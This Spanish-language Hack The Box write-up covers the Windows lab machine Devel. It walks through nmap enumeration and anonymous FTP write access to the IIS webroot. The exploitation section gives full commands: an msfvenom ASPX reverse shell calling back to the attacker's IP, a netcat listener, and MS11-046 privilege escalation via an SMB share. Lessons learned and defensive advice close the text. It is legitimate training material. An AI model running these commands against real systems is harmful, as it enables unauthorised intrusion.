







# Devel

## Overview

- **Plataforma:** Hack The Box
- **Dificultad:** Easy
- **Sistema:** Windows
- **Dirección IP:** 10.129.50.189
- **Entorno:** FTP/IIS
- **Vector principal:** FTP anónimo con permisos de escritura - subida de ASPX reverse shell

Este documento describe el proceso de compromiso de la máquina Devel, un entorno Windows que expone un servicio FTP mal configurado junto a un servidor web IIS.

La máquina se basa en una configuración insegura en la que el directorio raíz del servicio FTP coincide con el directorio raíz del servidor web. Esto permite subir archivos al servidor mediante FTP y ejecutarlos posteriormente desde el navegador.

A lo largo del análisis se sigue una metodología basada en reconocimiento, enumeración de servicios, abuso de permisos de escritura en FTP, obtención de una reverse shell y escalada de privilegios mediante una vulnerabilidad local del sistema operativo.

- - -
## 🎯 Objetivo

El objetivo de la máquina consiste en identificar los servicios expuestos, detectar una mala configuración en FTP/IIS, obtener ejecución remota mediante la subida de un archivo ASPX malicioso y escalar privilegios hasta obtener acceso como `NT AUTHORITY\SYSTEM`.

- - -

## 🌐 Reconocimiento

Como primer paso, verificamos la conectividad con la máquina objetivo.

```bash
ping -c 1 10.129.50.189
```

La respuesta confirmó que el host estaba activo y accesible desde nuestra posición.

A continuación, realizamos un escaneo inicial con `nmap` para identificar puertos abiertos y servicios en ejecución.

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn 10.129.50.189 -oG allPorts
```



El escaneo reveló dos puertos expuestos:

- Puerto 21: Servicio FTP 
- Puerto 80: Servicio HTTP

Posteriormente lanzamos un escaneo más detallado sobre los puertos identificados.

```bash
nmap -p 21,80 -sCV 10.129.50.189 -oN targeted
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Resultados Relevantes

El escaneo detectó un servicio FTP accesible en el puerto `21` y un servidor web Microsoft IIS en el puerto `80`.

Uno de los puntos más importantes del escaneo fue que el servicio FTP permitía autenticación anónima.

Además, en el listado del FTP aparecían archivos típicos de la página por defecto de IIS, como:

    iisstart.htm
    welcome.png

Esto indicaba que el directorio del FTP podía estar apuntando directamente al directorio raíz del servidor web.

- - -

## 🔎 Enumeración

### Enumeración FTP

Dado que el servicio FTP permitía acceso anónimo, nos conectamos sin credenciales válidas.

```bash
ftp 10.129.50.189
```

Cuando solicita usuario, introducimos:

`anonymous`

Y como contraseña se puede dejar en blanco o introducir cualquier valor.

Una vez dentro, listamos el contenido del directorio.

```bash
dir
```



El listado muestra archivos pertenecientes al servidor web IIS, lo que confirma que estamos dentro del directorio publicado por HTTP.

Para comprobar si además de lectura tenemos permisos de escritura, podemos crear un archivo de prueba.

```bash
echo "test" > test.txt
```

Después, lo subimos por FTP.

```bash
put test.txt
```



A continuación, comprobamos si el archivo es accesible desde el navegador.

	http://10.129.50.189/test.txt



El archivo se muestra correctamente, por lo tanto confirmamos dos puntos críticos:

* El FTP permite subida de archivos.
* El directorio FTP está vinculado al webroot de IIS.

Esta mala configuración permite subir un archivo ejecutable por el servidor web y utilizarlo para obtener ejecución remota.

- - -

### Enumeración HTTP

Al acceder al puerto 80 desde el navegador:

	http://10.129.50.189

se muestra la página por defecto de Microsoft IIS.

La página por sí sola no ofrece demasiada funcionalidad, pero al estar compartida con el directorio FTP, se convierte en el punto de ejecución de los archivos que subamos al servidor.

Dado que el servidor es IIS, una extensión interesante para obtener ejecución remota es `.aspx`, utilizada en aplicaciones ASP.NET.

### Análisis de la Vulnerabilidad

La vulnerabilidad principal de Devel no es una vulnerabilidad de software concreta en la fase inicial, sino una mala configuración.

El servicio FTP permite acceso anónimo y, además, permite escribir dentro del directorio raíz del servidor web IIS.

Esto significa que un atacante puede subir una aplicación o script malicioso y ejecutarlo posteriormente realizando una petición HTTP.

En este caso, se puede generar una reverse shell en formato ASPX, subirla mediante FTP y ejecutarla accediendo a su ruta desde el navegador.

- - -

## 💥 Explotación

Para generar una reverse shell compatible con IIS/ASPX, utilizamos `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.121 LPORT=443 -f aspx -o concha.aspx
```

Donde:

* `LHOST` corresponde a nuestra IP de VPN.
* `LPORT` corresponde al puerto donde estaremos escuchando.
* `-f aspx` genera el payload en formato ASPX.
* `-o shell.aspx` define el nombre del archivo de salida.

Una vez generado el archivo, nos conectamos de nuevo por FTP.

```bash
ftp 10.129.50.89
```

Activamos el modo binario para evitar problemas durante la subida.

    binary

Subimos el archivo malicioso.

```bash
put concha.aspx
```



Con el payload subido al webroot, preparamos un listener con Netcat y `rlwrap` para tener un mayor control en la consola.

```bash
rlwrap -cAR nc -lvnp 443
```

Finalmente, ejecutamos el payload accediendo desde el navegador a la ruta del archivo subido.

	http://10.129.50.189/concha.aspx

Tras cargar la página, recibimos la conexión



### Enumeración Local

Antes de escalar privilegios, recopilamos información básica del sistema.

    systeminfo

Este comando permite obtener información relevante como:

* Versión del sistema operativo.
* Arquitectura.
* Hotfixes instalados.
* Nombre del host.
* Tiempo de actividad.

La información de parches es especialmente importante, ya que Devel es una máquina Windows antigua y puede ser vulnerable a exploits locales de escalada de privilegios.

La falta de parches en el sistema orienta la fase de escalada hacia vulnerabilidades locales conocidas de Windows.

- - -

## 🔐 Escalada de privilegios

Tras analizar la versión del sistema y los parches instalados, se identifica que la máquina es vulnerable a exploits locales de escalada de privilegios.

Una vía habitual en Devel consiste en utilizar un exploit asociado a vulnerabilidades de kernel en Windows, como MS11-046.

[Enlace Exploit GitHub](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

Primero transferimos el exploit a la máquina víctima. Podemos hacerlo desde el directorio web, levantando un servidor HTTP en la máquina host o a través de un recurso compartido con SMB.

Levantamos el servidor SMB en el directorio que contiene el exploit.

```bash
smbserver.py smbFolder $(pwd)
```

Desde la shell de Windows, descargamos el binario.

```bash
copy \\10.10.15.121\smbFolder\ms11-046.exe
```

Una vez transferido, ejecutamos el exploit.

```bash
.\ms11-046.exe
```

Si la explotación es correcta, obtenemos una shell con privilegios elevados.

Comprobamos el contexto de ejecución.

```bash
whoami
```

El resultado esperado es:

	nt authority\system



De esta manera confirmamos el compromiso total de la máquina.

### Obtención de Flags

Una vez obtenidos privilegios `SYSTEM`, podemos acceder a los escritorios de los usuarios y leer las flags.

Primero accedemos al directorio de usuarios.

    cd C:\Users

Listamos el contenido.

    dir

Para leer la flag de usuario:

    cd C:\Users\babis\Desktop
    type user.txt

Para leer la flag de administrador:

    cd C:\Users\Administrator\Desktop
    type root.txt

En este punto, la máquina queda completamente comprometida.

- - - 

## 🧠 Lecciones aprendidas

- Un servicio FTP con acceso anónimo puede representar un riesgo crítico si además permite escritura.
* Compartir el directorio raíz de FTP con el webroot de un servidor IIS permite convertir una subida de archivo en ejecución remota de código.
* La enumeración debe correlacionar servicios aparentemente separados; en este caso, FTP y HTTP estaban directamente relacionados.
* En servidores IIS, las extensiones ASPX pueden ser utilizadas para ejecutar payloads si el servidor procesa ASP.NET.
* La explotación inicial no siempre proporciona privilegios administrativos, por lo que la enumeración local sigue siendo necesaria.
* Los sistemas Windows sin parches pueden ser vulnerables a exploits locales de escalada de privilegios.
* Revisar los hotfixes instalados es una parte fundamental del proceso de post-explotación en Windows.

- - -

## 🛡️ Perspectiva defensiva

* Deshabilitar el acceso anónimo al servicio FTP.
* Evitar que el directorio FTP coincida con el directorio raíz del servidor web.
* Restringir los permisos de escritura en servicios expuestos.
* Validar qué extensiones puede ejecutar el servidor web y bloquear aquellas que no sean necesarias.
* Aplicar el principio de mínimo privilegio al usuario que ejecuta IIS.
* Mantener el sistema operativo actualizado con los parches de seguridad correspondientes.
* Monitorizar subidas de archivos sospechosos, especialmente extensiones como `.aspx`, `.asp`, `.php` o similares.
* Revisar periódicamente la configuración de servicios heredados como FTP.
* Sustituir FTP por alternativas más seguras como SFTP o FTPS cuando sea necesario transferir archivos.

- - -

## 🧰 Herramientas utilizadas

- Nmap
* FTP
* Navegador web
* msfvenom
* Netcat
* smbserver.py

- - - -

## ✅ Conclusión

Devel es una máquina sencilla pero muy interesante para reforzar conceptos básicos de enumeración y explotación en entornos Windows.

La cadena de ataque es directa: durante el reconocimiento se identifican FTP y HTTP, posteriormente se descubre que FTP permite acceso anónimo con permisos de escritura y finalmente se confirma que dicho directorio coincide con el webroot de IIS.

Esta configuración permite subir una reverse shell en formato ASPX y ejecutarla desde el navegador, obteniendo acceso inicial al sistema.

A diferencia de Jerry, donde el servicio Tomcat proporcionaba acceso directamente con privilegios elevados, en Devel es necesario realizar una fase posterior de enumeración local y escalada de privilegios. La falta de parches en el sistema permite explotar una vulnerabilidad local y obtener acceso como `NT AUTHORITY\SYSTEM`.

Desde una perspectiva defensiva, Devel demuestra el impacto de combinar servicios mal configurados con sistemas sin actualizar. Aunque ninguna de las fases resulta especialmente compleja, la suma de FTP anónimo, permisos de escritura, webroot expuesto y parches ausentes deriva en el compromiso completo de la máquina.

- - -